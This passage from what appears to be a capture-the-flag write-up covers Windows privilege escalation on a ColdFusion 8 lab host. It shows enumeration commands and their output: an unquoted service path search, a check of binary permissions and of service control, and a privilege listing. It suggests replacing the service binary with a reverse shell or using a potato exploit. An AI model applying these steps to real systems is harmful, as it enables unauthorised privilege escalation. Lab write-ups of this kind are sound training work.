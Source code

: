 User `tolis`' has `SeImpersonatePrivilege`. Maybe we can use **potato exploit** to escalate our privilege to SYSTEM?

**Unquoted service path:**
```shell
C:\ColdFusion8\runtime\bin>wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
ColdFusion 8 .NET Service                               ColdFusion 8 .NET Service        C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe                                                                        Auto       
```

> Note: Unquoted service path is a vulnerability that the path to the service binary is not wrapped in quotes and there are spaces in the path.

Hmm... This service "ColdFusion 8 .NET Service" looks kinda interesting...

- **Check `CF8DotNetsvc.exe` permission:**
```shell
C:\ColdFusion8\runtime\bin>icacls C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe
C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe ARCTIC\tolis:(I)(F)
                                         NT AUTHORITY\SYSTEM:(I)(F)
                                         BUILTIN\Administrators:(I)(F)
                                         BUILTIN\Users:(I)(RX)
```

Ah ha, **User `tolis` has full control!** Which means we can overwrite `CF8DotNetsvc.exe`, and replace it with a reverse shell.

- **Check if `tolis` is able to restart service/machine:**

```shell
C:\ColdFusion8\runtime\bin>sc stop "ColdFusion 8 .NET Service"
[SC] OpenService FAILED 5:

Access is denied.


C:\ColdFusion8\runtime\bin>sc qc "ColdFusion 8 .NET Service"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: ColdFusion 8 .NET Service
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : ColdFusion 8 .NET Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

```shell
C:\ColdFusion8\runtime\bin>whoami /priv
[...]
Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
